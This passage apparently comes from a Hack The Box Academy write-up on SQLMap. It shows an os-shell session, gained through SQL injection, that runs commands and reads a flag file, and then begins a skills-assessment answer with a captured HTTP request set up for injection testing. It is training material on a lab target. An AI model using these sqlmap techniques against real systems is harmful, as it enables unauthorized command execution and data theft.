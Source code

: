```
> 1

[SNIP]

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

os-shell> find / -iname 'flag.txt' 2> /dev/null
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output:
/flag.txt

os-shell> cat /flag.txt
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'HTB{n3v3r_run_db_45_db4}'
```

**Answer**

```
HTB{n3v3r_run_db_45_db4}
```

---
---

## Skills Assessment

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

### Questions

#### Question #01

**Question**

What's the contents of table `final_flag`?

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ vim addtochart.req

POST /action.php HTTP/1.1
Host: 94.237.48.226:41007
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.48.226:41007/shop.html
Content-Type: application/json
Content-Length: 8
Origin: http://94.237.48.226:41007
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s
Sec-GPC: 1
Priority: u=0

{"id":1}
```
